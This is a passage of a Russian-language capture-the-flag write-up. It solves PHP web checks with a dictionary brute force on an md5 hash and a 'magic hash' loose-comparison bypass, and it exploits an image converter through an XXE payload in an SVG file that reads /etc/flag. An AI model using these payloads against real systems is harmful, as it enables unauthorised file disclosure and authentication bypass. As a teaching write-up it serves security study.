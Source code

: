 #### fifthGame

В данной проверке нам даётся md5 хеш и часть хешированного текста. Так же нам дано, что неизвестная часть - это популярное мужское имя в Соединенных Штатах. Можно осуществить брутфорс-атаку по словарю известных американских имён. Верный параметр: `game5=SquidGeorge`


#### squidGame

В последней проверке необходимо, что бы хеш параметра равнялся нулю, однако, используется слабое сравнение. Для нас использование слабого сравнения в php означает, что мы можем найти такую строку, хеш которой будет начинаться на "0". При сравнении такой строки со строкой, которую можно преобразовать к типу int, php отбросит все значения строки после "0", осуществит преобразование к int, и только после этого сделает сравнение. Значения, которые дают "0" в начале md5 хеша, можно найти как "php magic hashes": `hash('md5',240610708) === "0e462097431906509019562988736854"`

```php
squidGame=240610708
```

Объединяем все параметры вместе:
```php
game1_green[]=x&game1_red[]=y&game2=honeyhoneycombcomb&game5=SquidGeorge&squidGame=240610708
```


### PNGtor

Имеем сайт с функциональностью конвертации файлов в формат PNG. В глаза бросается форма загрузки файлов. Первой приходит мысль о загрузке php-шела, но т.к. мы не знаем пути загрузки файла, то этот вариант сразу отбрасывается (тем более, что бекенд написан не на php)

При попытке загрузки невалидного файла мы узнаем, какие форматы изображений можно загружать на сервер для конвертации: png, jpg, jpeg, bmp, svg, gif

SVG - это подвид XML. Мы можем попробовать эксплуатацию XXE для подгрузки локального файла следующим образом:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd" [
  <!ENTITY xxe SYSTEM "/etc/flag">
]>
<svg width="100%" height="100%" viewBox="0 0 300 100"
     xmlns="http://www.w3.org/2000/svg">
  <text x="20" y="35">&xxe;</text>
</svg>
```

Прежде чем провести конвертацию svg файла в png, конвертер подгрузит файл `/etc/flag`, он будет отрендерен в png файле

`flag{XXE_1N_SVG_1S_0LD_BUT_G0LD}`


### Signer
